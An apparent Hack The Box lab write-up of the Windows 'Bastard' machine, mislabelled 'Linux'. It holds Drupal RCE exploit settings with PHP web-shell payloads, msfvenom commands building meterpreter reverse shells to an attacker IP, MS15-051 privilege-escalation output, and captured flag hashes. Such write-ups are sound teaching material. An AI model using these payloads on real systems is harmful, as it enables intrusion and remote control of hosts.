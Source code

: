```yaml
---
layout: post
title:  "HTB Bastard Linux"
description : 
tags: 
---
```


# HTB Bastard

# Recon
Nmap scan
```ruby
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_ Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Gobuster scan
![](https://lh3.googleusercontent.com/GaFlr7GWx5N7rb7y2-vSaXl_qOI3ZlnZrAanwKRIkyniOkkaPB2zGRrVrG2JCO5ef38R_C0CnDbchWt-apnuXRWa6JEX43MtH0IvRhLIICiY2Yz_LcjCeE1ZnnQCSRSjl4Hc3ZX76PtwazQFq3377eGVr-TD06s88fSMjZMZTrM01J_S_VOIZsrVIP1rR_qDF34KbkzZjV0mww7GSNzuOKLxicLKkmsZo4UiTr8XTi3jC7upES-QnHrkSjC9V-3tdnZJ5oUO2hPrS4yjWwMLXAzlNJBZVlJd05wk_-ssaU-2of4lywP8s6kTa2uhDun4MK2oR7eGRXxgdGU8XEvDR_YHZfJV6xqXkkkyjduHiCXiO-rbt0US7Bd76cjx9n1ah2eiBy5mIhcFxh-FVuBz3sWzDLLInO5fFPT-jtcdU5yKk4B2UKTeAMq2uc3HboccrLshIXwCBCA494rnHStO67WjSz4JR9UKgiFasZpvxi_QZ9ddHvdKnn4Ze1_GN43TOoMaLurneVuGh2o6tVv_nguB1bCUWuLjJQVB9mtJNKp0jgUwDt-cnZvuofL5PnVYnNcM_Zz8eoEmhJIHkIwUSUqX7GFNOjj76p9Dqi4QX6yH0i3u6OJ3Qu05PgP1i_ama4KnjsDVaGp5N-yWOa3XDX1pR9RzdeZ6T5cCdrOf5YoES9N4MtR_QPo=w368-h255-no)

Nmap indicates that a Drupal 7 is running on port:80. Furterh investigation reveals the changelot file.
![](https://lh3.googleusercontent.com/Yeesj-3PsnWGJ_xqpyM1XGCwZ_sxMTtcLND1FYB4hJr2EsoknRs7cEGX4mD8BU9y70P44iC1BDqPeSOZz59_YUN2neCFoSpEjlxA5LJdY224klUO0E_Yr48EhtNAvc_dofSeiAqxWzDp7FFlrAlJziRXmEwYqZzlqCULm_c6R7zgdQuj4qs2k97ifJr7aGZ0HSXqOh2FLsCAc9Qp4OtZZ9H_f_FL6AI9_307z9Cjz9bveC-nC2Ic2kMQpL_SrMcXxz5JGIke8eHnAdATOazx-P54PSPMnkY8Lk5FXJESnCvtaoPLh_H8AVDB-iTjKLBkl3xf92AsYgeygCTTcVs01-Kv-9AFHoWIh9gdAQ3uaPJY2xCyH4ol7qF64bzoMT-jA4ih5UB3R11-Wm7yVfbgXRWXqInf39C75csOZPFi5-_Tm4Ogv_sA-rLvmxnBVpToU3-6LyCy1W9Zpt1k7sBC1cg_gpcsi5ZOa5seIPW5gFmIHRlI9ZAUZW1fNpD7ZK4HPXy2_8PsHOVVUjeUFmfJcOhD0eTufwooyblwEGaWAFe0IOo9xrmm_Cd591cDIrlBAbpZq9fvmhpn2xwtiPjpO7X1H35SI7hklPPbh6bOuS8YGI6zrR2EXfvaKbDegmSf_KqQ83RjWmuPG_KjLSdUxGIi3d2w53iOfCSa-Etf7le7NGHzc8zEk7Q=w532-h266-no)

![](https://lh3.googleusercontent.com/VB7NUY3pt-vYtFz15oSnfHz9B5ShufrG73oMbDS-RdBhPVVr1Ob3gqv28Fy-69TgcNx0_6v67Zv3N9MMWtkLgT2i96YJsSdYrdhNDTE5NsV5ttkL-vUP6DGSx9SZuynkc4MHlY3DP-tG8efdqQv_D7YVCpIR157_XlH1vSkUIHGa3dVGAhYaUCh0FWWMNf_ZOaFyy-xiqL0OE_Ryz4O_-TpdAW1THvcNDLeoWVsDiDRq2j0cRzEyFJnB0tv_-Yfwhf8EkQIhxdKBBse7pITTJjZdDi1dJZ18Y0PB_VFyhWHtY4gpZKgGmzxo5rylV3yuT_mfOyQOltidwtb6Dts9pq_Yc0kZD1Xod2GKG6jBWh6x4T27qSr16MZDrdzqJ2xrtykv56tjhS1qz5Ae18XLf4yObNz-TQNH3QQ8p_WifeAhYQXEHdTk_Xrlgib7SOl04UTOpwu_lpUXII_SOU_keQKGLew32jY5aq8Gu3pRS8Ctk68c_FwYhXAzQSVt7PRumDuo1X3o5dQ1OMV5rKwgf6Fxplml6Ba0zpu624RJpi2Y3qXsDLKrllTnRpfOv2Ok7KorvuwnLuzFdDc-FXn-8d92MZ10clLoCSKJ1b5tqIyVFg3J6wY8eou5x-Kb1CeR9HSUNDS6BxrxWztuJ-GN_GOKzOqdb9axwIZND-5d-Zyr9OF4G5EEK2M=w559-h331-no)

# Exploitation
According to the changelog file the Drupal version running is 7.58. After a quick search we find
the closes exploit to the version
```shell
Drupal 7.x Module Services - Remote Code Execution | exploits/php/webapps/41564.php
```
![](https://lh3.googleusercontent.com/9lstBWfm8oaDaKy99l1tD8hJOq_d64IGWmu0a4RgeDtp7DJC-6L0xrzmUCx4URVSFJVnkEgZt6xb8QaTfECurCQUgF8vl-xpwfbgPDm_1n_qjW32P7S7iPkPnEWSMy_gSi6n06Di84Rm75syJ3P0lKovRketWxPvVCwudFYoqSZ5TcCn9u8VyMTU_likTOOElJCuJyjRw3CWlp02WNcOXAeL1qwGx_HT_36jfM7ji6wsfRZIHbLBIbLjZEdG5rWbXy9HCyi__RnOBIposVdcDHcQPV6by9h1vM1E4kA4YpYLrc5iiKXLHSaFe4rzlzRTzUlzQbb3GnHewuj2GDMeGaflG8TC4WXekLQofJ6b_Hklxk5stM-MUtympGNC-CvmFVmvcOEiGxBOACTlAB42RBmNM06HU3iEuWFb5Q_NAJ5_jAkQhBnAT-pNcfWR4-YOzqbxC2lbYVie3-_qvR-nehojWX2hpvjlTI8VvRb5VTXTaXjUr851icRrIJkLn5dRCJICEcI1J8RaGWiiDufxaiaC1EhgdlnXu8arpv9o8cekjspbkRyHdD2dLcN2WTFg5iEEjqT3yeBDSh577Hng1NQvXruBpUEgRY7uiSDMrZ2HsN_6irXpOyGCvKxYkLq6Jlqhi3GD6fFB-L5s4XfWFiUxqVZVBykE9UyYrxGsoDEwBM95AhFdGdU=w676-h275-no)

We modified the following options:
```shell
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
$file = [
 'filename' => 'dixuSOspsOUU.php',
 'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
```
```shell
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
$file = [
 'filename' => 'writeup.php',
 'data' => '<?php echo system($_GET["cmd"]); ?>'
```
We run the ./drupal.php file and it will create to two files **session.json** and **user.json**
![](https://lh3.googleusercontent.com/SMmshWsrne-XpcHuJoxK1KD2lR89U3wxk_O8VI1BVhfnHl5B-kkwkJ9W51xAYVSwi-wxJU65zXKOzF8w98NVmaRh-XxKUvkr0etYIiYnuG1W9bm3VBqOJd-V9YKsr0Bcevrqy7PRTNoYMAma6HWEOI8P_5q1fBARKUm4Ex59Yh5v2R2G4R3pLzNna55Gz-3CH24oI1xS5ykm4RMN9biEE96IPvFmdIYm2wzm-BON4_cOJTZvqrnPSU6v-63z4HN6R5ogLLob9kL2AYUb8gmrpKXU_W1-VJqkRGhxxY5dnO6JMGjyDp-fX0LjrFe-daIIl8O1yMkD-bqujqYSQYMb1xvB8ODxEgWGm-VTJ6RuxLVUM3CyGJpULFFUWQGeAaqmWXiWawlQNcS0Upg9sZfJhQclbyAsDnjVF69kbcRlFqIKdpJJjrCAPAHQ7urTQrDfSas0vk-iCf9i-_WtL44g2Bylz1ZZXlG860bTGeTFCQt_IVOOeROvNBCzx9NpKgqvKoJxZTH54iNTnWdQ0FiZfes5WEvc7iweOW1iC4W0Y_FNj3BaJQ8BBnlpqt7RBf0YlL8ehQwU6GJkHfPlDGOlBDtL8qKX1ndZ-JQnZlzW14QCdsLD8CmTGVrRpJnSZziHBBp0UBjktwZbtWre_4ByvtJSdq6Vh4Nm4DlcN_8uiHa0LSXKEFKSOpg=w390-h199-no)

![](https://lh3.googleusercontent.com/5LEVJvjFIrM7Tiw-TidUiLTpx5E00I4SLhHmbXCtiMhYgZNPmnsjwCpU6rAYu7-s64eiA9J1LActK24HINMLsgSV_3lJLo6rSSK--VJsEfTK4cxVOfPX3IKbIEZbNBZPKYRgBgoSUiaie3rft6FZGAR-2XzEQcATrYp3-ExRW5Q3Kejw9_RLHCNc6zW7xGXpx06Fvr_u04hiOmFX_M0X4Md7k6l_OI3HV0h0vHS1vVQpiE5Pea38ftmwWkhJPtGCnB9IIJn7TzChcc4wFRz-m4RjS8oU2lQkRIFn-ihtu6nD2tLzhAUMXQJZMq8WY5z3n0XuNiiV3wwSk-WUdDfmR5CCLvGUcmi-lQMG2PkWydQnvVQ9jdMG5SlTbfoVrc8gxgBrJuwu8YSn4zqApPw3sJYdiaFWFNvyoCgOYqYvDdCw4JdQc2tl5KcGmhd7KyfZ1hzIYYsmpM1sc7jcr783PnswhV30MhFthhd6adUYjWoh0sTmLxOUckcXYEx1ss3c2n-UqIKo7Lx-wfeOw3EbK5fZuSsPo-dm-E-yP1kr9ayb90FpK-4Q2kaar9MLJnllC3UOmvm4Unwn0crlb0BKTlFeocXxFRdqqDQj1zvweT_k7hTRt1RzeIOFninvBgjTbYRXENeCD5pVQr_Z5md9FnkNkZSnXKHq83RN3JbqKB2Kbuaph3Nj9sk=w584-h128-no)

We create a cookie with cookie manager and we use the session ID and session name from the
session.json file and we login as admin.
![](https://lh3.googleusercontent.com/FWdpEek-l4QGWD21HrN386secGE9IxiA_OVvGwEOH7A7JxrdeJRyKv_kxLrxlCCSYmTtR-udboRR6QK9LcJNys4vQclROwHpkAFIprI_g3z1Pn275JSQf6PkYjNwpciUfktV5Iq5msSUnQdqJIBWNJeA1GOs8L9yE-DgqlxgxoRMO6x5EJK9ZVbp1TcwndqBnqvdy3tIweC8wu2THJz7z_vvQLv7uy-dsjl3z_L0HIYXQB4vS8eNEisp22CnIjHuAMlBEIcgCba2EkRJwEOEfzCw0V4P-T0OqSyo6J3N7h5OVdCtJaJHvMeM_Xzd1A53CkeNShdDDc05umpafeRMJKqzdcDuUhc8790jOy1IDfZ1ILSVFA531KC3KjKP9lo8lMUXCsho-0Pf2B_snSkYXzA0BHkY4qKZJN4-Pdj6yWDXoeyWUKX6w3hCDJgRyUx6A7JwWq4TNVUlRobXrO-fCQrvKZPnBi6KHSnQZ27-9qQ1TAewuUYdcz9EktLnAKPNI6zu4HThNwp4VK_gcbzFVmXwZQU1k7KJ8foN0ZtWKhrf2n389avKxu0d643lyffXz1SvMGHG4rQQ2H8WcJCVzw01nfBVzPPaDE3qzD-5e9kPpNtOIZmcN17Avhj0r49ycan7cZ_RFx__mHX96v4TeaABukXl5nGs8gZeaEXxwc3cjcvO1V5JaeA=w986-h386-no)


On the modules section we enable the **PHP Filter*
![](https://lh3.googleusercontent.com/nqxJ_UNATvG5iBxalGd0kLEojyGOwa973A2M-zjq9lLStWqZzAMxlMbIO11VoDh8NDS8K88fzg-3LDnwFoVo-9P5fMTT80Z-7E6UfgMv0TfW4mm4CCJt_YOMXKpeQ_lXuh45zYpgZiiEcFAwPIphzDOJAC_si-jnqQVdMFBLOv8HksG-nYkEmqnO6F3oTch7bCNtJTBXp6GhI8SA5jeBqmi_kLJIoG4xDT1dlSQeTUTaLL5rLlId66_FILtoo9UZmWuR-N62UkhiceB_cE_u6gLPr5fO84E1yh7v-jkSmg2nSlk9Zhy7bJ2qgY2i7EA0D0tEcXPFgF7LXCoqZUa-CDOY4KMave_YxmbpBe13MMwnMqTaKhwVOE-EmoNiXmRC1Y-sF-CHozmwnMJyHdTQB-H6vi8Akrhe6wVh55ttNbElM8Oa3P4KOuDotdxSOAT9GsofZsIgsFXnM7TEUBRE9xW-G_pHgZD22lEhjJn8XZsxqjx8IR4z_aGv06-w3r96TK3xb0cclh41hh4IIWp7sIvvAEt2-F1dZefou00iPTPeaNccDlscnljL1xxCBg1evMnjz9eUybJ8VYArv-kPaOMQM0qzWAav3W6A693qGe2om9omIIIyJLx7BJ7_pGGMLuQ6NWV-iL7B0u2eu5y4COVATCqElmWvx3gn6YmMJ0JrgvE7mW9hZjE=w843-h93-no)


We create a php msfvenom shell and we execute it to get a reverse shell
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=9999 -e base64 -f raw > evil.php
```
![](https://lh3.googleusercontent.com/QGc0fa1RgZl9a6ns8wJpGesn-jZrLbiQmAF5aVath8_4EWgBLoexsuW3AOsYyA24htM-9DZFNHmmbffO7XZL4JeD1LrY7Z1fVnJ6euJFbxSeYv5W0ZkPAdBKEPR9Y2WewjzgjWaQmjAjm-J8UA9-Lx5VIBQc3p8ycsmHIdBZl_dUOgBscp6UOaa8otyC7AoWaXajuYjsbrH8KRTGrSKogCVODNmHG03xMDq5MFihoOxipaeAAdd-T3sV8qce-Gl91gaJw5JiWgEFi_R_TwmkgBR8vzYxlpEV87SQsgTciG-5bAuzxmHLmYsl9LIkmpgLNqPYfyITNkQTTXM7Xh6mFTGUQz6L07L6htETxdwuHN8MsaguMbEnu-0nN4FK25BVbfven75Awd2wayESjrj-edDhbAv3Px8qx6DTf3Ydx5_nGsBG_MIMAV1QC9AyFkcVNodlgJhB-oBfNbNKKv_ZmzJzN7re0-a_Rxp3Fq5lBfy92xqA3OG8xWioV63UkOH5fy3MAb--8VEqewtKM6lLDb6f8GCn76pSGmeTbKQOQM7HotuEYrKc8VWT68Rkb5WCTg6QuIkiZz123HbTKnTreMZw4ZOG9yZ9u7_eGgLe7qLPHTLloVU1P6yrNQqXkcIFedEEHPlc4EnjwtVsS7_WM-eClbmhK_t8q2yxa2ydvQETpP80dxkByhg=w1126-h179-no)

![](https://lh3.googleusercontent.com/VFHh7am3Klejtbn_HPd3Dv74BW-29ig73ZdRcCpzmZ5k7dikSE1e_3C-2mjrw6oudAxyxLkSPygKbVu8UZnIBAViqtvhpNC2IcQpr0i7zbJeCGKxZRwQi_Q2Jxjwgb4BMeOtZYsp3ZLQ0yPBlOmHWgW-QdrTHM2slDp01O06kZPdXWTIJP5xDamD0i6pEL5_cewVqB9TIvAsvyPauxQtTTaLRFDvg5JpBCz3sJx-aFh5wmq6ihGNFqH4WKf4OWZMkwh-jr2MtfbkqepsIayHTfB_rnOENyJWn0J3B4BMvz2VRyj0PKv8R3VZrIUcBWvLI6zxlzL8AakevTC9887WeKWeU8mrpqHvlPdi3hi89EF-H1HBDRU7H7mMEg8emDVQqwKc6E4e1LQcc9fJJwQ_TIIJaGmvPXHUbPXiUqMMT0eYW_Rgnlji1u_WrZoUB2Wv5DX7SJlgTxS3yA6yLFOvGjwbRyTDj3i-pZ8a-WIDl-nT-gzZDnzZL47JuvTSxATsgzgce1HJLIBaVNiLsdfBvSYtappbyHVL5Eq2h2zlOez7sPcbKPIr5UqngokTd4TAeYkhfyGjPA89RX04DNxZtFf-gQ7QcgRmBlXqdVoYfD7v10gAomRGP_y4_FTxiGcRw_L0Izzc7g6-Ofo_9v-illxW5JFMNhiEgfXycxUCJAkXaf7m33lgImU=w492-h156-no) 

![](https://lh3.googleusercontent.com/S5sXZe0Qh6mCkJsuKAr8IKe0ZMv9Ib8mOq8Cnkl0q2wDr82kybgdB1XgYv8F8C7Gu99PAN7H4JeQ6Wfax1xz1SJCwXxC7XfLfVhNkvXjthI4Z4mh4JftqdnpBp6sDWqb_yUfkhMnwkxjqf-B35SUJERjWbJYyosWpWtNJEnZ9Srpb9cLs6L9DLKc2YPR5jqpqe2xKDuXC5Y3bG8ZpGb_1qJZYBS31nUp8mhmhw12uh2w_N2z7aiRFbCP8-Ur3FeQVNwH3HO-6aacVwep0okgEQi9qhKrcNyEmfGSO-gZvQQcENqvoqA-Z08FtV23RA7nWEFdxFpJ6lLi-8e5yi5KOgvh-7oG-QINPJsQ8Mwvsdr3T_sQ7D6OVQe25Dc0c47oSIE8lHMuUKnhsqq0AAmW0GdiUvJFnn6sv5WczHU2aq9dpjWxX5gjYnKB6C1AL8nkU6sIArF6T-9kztigFgU-LottydzOnoA3qMojJbenpnjLmw9cphIXqK-f-eZ28Uj92ayyVrR3DjWrlZMjteyo5Ex-S-tHZtSpKuv2h-fuUgEztz5Y2kTKLWrsdTgdqRevODdNQaEKdEbMoqvXYvBrwPFnz6Jx2nj8rFo_MZgW1C2OPbjNyszwGqtYwJYE1X8qmb-8AccySIo3K64MWeK-J9oEA6Wt4QkiXGPnSk4K2IJ1NFcmFjiZcFY=w446-h145-no)

However, shell is very limited and it crash when we try to spawn a windows shell. so we create another
msfvenom shell
but this time a windows/x64 as the target machine is a 64bit. and we upload it using the current php
shell
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=5555 -f exe > evil64.exe
```
![](https://lh3.googleusercontent.com/MZ9qE-DU4oClL3QslcYQnUXOyiv3njiZ_XbmDwIGDfEwzvEtpv4jbIWKEdhBxeXGDYE6funaNm9SyWhrQNdX6J0ctv_a7-HhE6XPTqx15bjO4jDvc8aI57zpZYuKoU4gmBQJ0KiXEepIAMfvedm1D_z3iV65aJokfs8rXMrlcEfAHKBJ0RizB7ACqfMgNkNnTkdTFQ_bmgyuxw5jj4Xdm4BR24SqKocgqxcYtI5JLbtsGYDk8_rtHKeEJ0Eu32qNDSP3NtKNb-gQxOB3mYQNq6QretWLELD-n9RNEnwPkZNMUJpZZqayPB6b6gbKXjHzTalVM2_UR0bAZGGstllueS8k10_8wfsBl3Ap6tSIiEul8lQEqDU4N-bUbYspOSRbeuNX7VgCkaMSEWdX2R6ItuXo8ZGRycQYIRvfKm9TcqQf_xe4N_QbhYklEpRHuuR-2o6TGqkWPZP0lu8lD90g8S4POMhOQTrUMC34nPLWopw4OR6MySkfVxWI7Pt8tcJ4KwUvZtwmO4f28Q_TpFWPpX4OQlNDFHK7aIeJuwWK8X8Zm59jQUva5NtZ98RpydrnJWdPdRbf6FLXyHGVQL-AuDw8Y8Se7TCiCbryqzpeKOpJlkAGX5s6XWeClbUIWt_IUljPJoi2AkPuywjC40Dp06glIGG4JGtbvK-U8viuzZIZMr_qacGwkHM=w679-h395-no)

![](https://lh3.googleusercontent.com/s343Uk5g9pk_Pht53oplofawkwPijfvmygzwqbHYisFqVNCKnI6BmCzAS8Z7dxBQWg-7f0DBH3kzPBiKSeGQBJUt-v9m7fxbLyvt5Hy3_BbxyxVUq_BpPeIvzB7ayaPb1u2_6nnwwI2T-T9bNvJwKys-l_qzmIkZNgYe9Q3jLRgcpD2FzLNsOlTWH-Edc1YWj62IFwlcHckOLN6WfKCXpl6Ikogzc54mRRoes3Droy5C9A86cZ6PG22WOnMknamD9rfOhdk9RZP77QRt0z9nhMZ5_uXaJxKN0mAZMnkERsSPECx0tUpBG1JA2ripOAt-2aasrTzz_4Az-GTh6wqurRh6ZOJ25RBAM8YwA01Eyw0js8TcWbBmn5c7cj_JaBH9NJ3wng6Q88wgdMqzDJ1UEIDEHbgDNftBIWaDbwxZ6_iMObt24fuqP_6fQ2_UkWoV3ntOBKjKqlT5QffoQTYKbIZhAlUPtHi1A6f4Wn4bZaRvVFD2pfXx9mDJzuqfkAeZTCmXhjGfVM1aKZWpgvYwbpTNFHT5XMjMbGM-KwBkG14HDsheLxQbTf7CBoynE4H9yfsk6q4fDHUd1u44ZZAAtqzvjvE6BHf978e4VT95JHr3gAQ-dVDgc6Pc6BohFfYTE1s_NPVeYxHG_8NfakqLqSPaWGtO9BrNRoFvWLXtIDpoSliwirgkNzU=w713-h160-no)


# Privilege Escalation
After running windows suggester and trying different exploits I finally find one that worked vuln: MS15-051 CVE-2015-1701
This exploit let us pass commands as system authority, so by passing the command "cmd" we get system
priv. Ex
```ruby
2/2
C:\inetpub\drupal-7.54>exploit-bastard.exe whoami
exploit-bastard.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1500 created.
==============================
nt authority\system
C:\inetpub\drupal-7.54>exploit-bastard.exe cmd
exploit-bastard.exe cmd
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2588 created.
==============================
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
After some google I came across with a compiled version of this exploit, so I upload it with meterpreter and execute the exploit.
![](https://lh3.googleusercontent.com/kwMV2s5feygPwMnyf1rxzqQQjoGG508wb4Xo13huKmGP1TkJtEGTovARb-UHok-weztD_uhPxZ1T0HNBwvFSG0T4GcZcTHeCQANHn6OUolmHUcBWi_SVkpbwHKJcS89V3aZLRG9-zyE5e1kDkiiXehiUAxxQ-NZay_RZxn4mgsO2fBojLolxZhlv2i1G_ulZXU_gpcwhbDPH3QrAdBVAYquxz9A_1vQnSyPe6-239cspSo0Qi4ErjKCmYT6ea1ingVKOCMpzebg1XIeQ44ZhWcUBtlNN-BzXRKATKBeKKQqnLKWVO7-gqmiaX0r3ConQhwYIewvwINYe6UZqAI5v8s35eluuxra5-mdIk5noj50HH_bcFQllYEiqpUeZtPtqtn-OiyszxzIct2CtBGnd5JWu6bgj81KU3drHn6r7qQtCJDJoVyNjmyYlazR23h6O7_FMztv8z77HnDUFRaNjx3_kfHiPXnj35fXbaWMUo_A3w98qruDnDYCY7HfhGiTBXVfk6HMKFMuXIr88O8VETe0Wne9rffkFgK6X6UaoHMwaSvZXzQ05-hLrmQddonHzG-xdT6IftPmocKOkZpeQaju26GeqyQjit7rWgD4JbVEwtAdpZ6Xn__AtNrXiRycbasN1CUYNSsxqOKvyPS6jlHh0BC3wXJcTZHT4hW30kcWoxjTu889FNnk=w652-h89-no)

Finally we got Root
![](https://lh3.googleusercontent.com/Yx-CDF87NocbY3V9tB3S1BU6ObNyVA5fF4Qe99E0SmWHxsge9O80XCjx656LGa6_CjVfF_HsmEmuy9Kvc75MGAhnPDrtaYR0zJqWVbZfD5mDoxAJMrrfwyLf21lqdLQ2By1M_F0jiGbrt5ScS--L8bu4VkH2Mk5xpG6DqI_OqS8DmrHVSbF3Fq8EhTHm1b1X_JYmZ7WKgS8UUTQiwtNVKIU9qsz2dOBvPjeccN3bfgwyNwrZEXbyUVKt6tW6Zm_dN8AHkQDrRZdB14qRUVWxIyvfliByVrqx57THulBp_J-PIuiMvFKa3E7FB3vIfdRlTI9GXKcpZJ5P1l2X4FovQvrS7ZLnXM0rqHQXh6FYwdRpgFivsJw0PlAgVj7eJwBclZLVdz37d_iiOoo0iCAVdeeLEpxd2g8PGxynUJSO2u436ViByCyQx9wL3jOPwHa1z5vOl7avUlwz2T0p98XevPmF2v24Ft3ejWb1szVxSHHn4HKxYtSoYAwRjI3nL7Dk6eWfD6mDCiFqJJQsiN6cRM0jjP9E_R56WItJYz_ZXujE5BWek-GS5CIKGK7tCysBF8SFNI__1otQZ_RjpSYAY6aNx-gC6yq75JQVpwKV_503zPo7HojhyW_y1jho7JCEeeHh_YfF7qWkz3nmoTSoAAodFetIUe6Nwcb4ElX7xpkJ9s2qkkKdW7s=w630-h355-no)


```ruby
ROOT  "4bf12b963da1b30cc93496f617f7ba7c" 
USER  "ba22fde1932d06eb76a163d312f921a2" 
```
